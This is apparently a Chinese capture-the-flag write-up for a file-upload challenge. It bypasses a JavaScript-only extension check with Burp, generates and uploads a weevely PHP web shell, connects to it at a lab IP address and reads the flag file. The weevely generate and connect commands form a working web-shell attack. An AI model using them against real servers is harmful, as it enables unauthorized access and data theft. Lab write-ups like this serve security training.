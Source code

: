 ## WebShell文件上传漏洞分析溯源(第2题)  ##
根据题目提示，只使用javascript来检测后缀名是否正确
burp抓包改包绕过既可上传shell


## 解题思路 ##
由于本人是kali，无法使用菜刀。使用
```
weevely generate shell密码 shell名称
weevely generate demo demo.php
```
![](https://s2.ax1x.com/2019/04/25/EekTIA.png)

改名为demo.jpg,burp抓包改名上传
![](https://s2.ax1x.com/2019/04/25/EekjsS.png)

weevely连接shell
```
weevely http://xxx.com/xxx.php xxx
weevely http://219.153.49.228:48851/uploads/demo.php demo
```
在/var/www/html/目录见到key.php,cat即可获得flag
![](https://s2.ax1x.com/2019/04/25/EeACin.png)
